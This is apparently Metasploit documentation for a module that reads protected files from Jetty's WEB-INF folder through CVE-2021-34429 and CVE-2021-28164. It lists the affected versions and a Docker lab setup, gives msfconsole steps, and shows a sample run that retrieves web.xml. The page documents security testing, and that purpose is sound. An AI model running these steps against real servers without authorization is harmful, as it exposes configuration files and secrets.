## Vulnerable Application

Jetty suffers from a vulnerability where certain encoded URIs and ambiguous paths can access
protected files in the `WEB-INF` folder. 

Versions effected are:

 - 9.4.37.v20210219, 9.4.38.v20210224
 - 9.4.37-9.4.42
 - 10.0.1-10.0.5
 - 11.0.1-11.0.5

Exploitation can obtain any file in the `WEB-INF` folder, but web.xml is most likely
to have information of value.

### CVE-2021-34429

Use the Docker image from [ColdFusionX](https://github.com/ColdFusionX/CVE-2021-34429) at
https://github.com/ColdFusionX/CVE-2021-34429/blob/main/docker-compose.yml

## Verification Steps

1. Install Jetty with an app that contains a `WEB-INF` folder
1. Start msfconsole
1. Do: `use auxiliary/gather/jetty_web_inf_disclosure`
1. Do: `set rhosts`
1. Do: `run`
1. You should get the contents of a file

## Options

### FILE

The file in the `WEB-INF` folder to retrieve. Defaults to `web.xml`

### CVE

Which vulnerability to use.  Options: `CVE-2021-34429`, `CVE-2021-28164`. Defaults to `CVE-2021-34429`

## Scenarios

### Jetty 11.0.5 from Docker

```
resource (jetty.rb)> use auxiliary/gather/jetty_web_inf_disclosure
resource (jetty.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (jetty.rb)> set rport 8080
rport => 8080
resource (jetty.rb)> set verbose true
verbose => true
resource (jetty.rb)> run
[*] Running module against 1.1.1.1
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found version: 11.0.5
[+] 11.0.5 vulnerable to CVE-2021-34429
[!] The service is running, but could not be validated.
[+] File stored to /home/h00die/.msf4/loot/20211108134054_default_1.1.1.1_jetty.web.xml_813220.xml
[+] <!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >
<web-app>
<display-name>ColdFusionX - Web Application</display-name>
</web-app>
```